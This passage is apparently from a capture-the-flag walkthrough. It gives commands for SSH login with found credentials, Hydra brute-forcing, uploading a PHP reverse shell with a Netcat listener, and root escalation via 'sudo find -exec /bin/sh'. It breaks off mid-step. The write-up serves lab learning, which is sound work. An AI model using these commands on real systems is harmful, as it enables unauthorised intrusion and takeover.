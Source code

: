 1. From `dev.txt` or `j.txt`, identify a username (e.g., `jan`) and password (e.g., a weak password like `armando`).
2. Log in via SSH:

   ```bash
   ssh jan@<TARGET_IP>
   ```
3. **Result**: Successful login as user `jan`.

**Alternative**: If credentials are missing, brute-force SSH with Hydra:

```bash
hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://<TARGET_IP>
```

**Tip**: Save credentials in a text file (`creds.txt`) for reference. Double-check password case sensitivity.

### 3.2 Web Exploitation (Optional)

**Objective**: Check for web vulnerabilities if SSH fails.

1. If `/development` has a login page, test credentials found earlier.
2. If a file upload feature exists, upload a PHP reverse shell:
   - Download: `wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php`
   - Edit `php-reverse-shell.php` to set your attack box IP (`ifconfig tun0`) and port (e.g., `9001`).
   - Upload via the web interface.
3. Set up a Netcat listener:

   ```bash
   nc -lvnp 9001
   ```
4. Trigger the shell: `curl http://<TARGET_IP>/path/shell.php`.
5. **Result**: Shell access as the web server user (likely `www-data`).

**Tip**: Ensure your VPN is active to match IPs. Test the shell URL in a browser if `curl` fails.

## Step 4: Privilege Escalation

**Objective**: Escalate from user `jan` to root to find the root flag.

1. Check user privileges:

   ```bash
   whoami
   id
   sudo -l
   ```
2. **Findings**: `sudo -l` shows `jan` can run `find` as root without a password.
3. Exploit `find` to gain a root shell:

   ```bash
   sudo find / -exec /bin/sh \; -quit
   ```
   - This runs `sh` as root, giving a root prompt.
4. Verify root access:
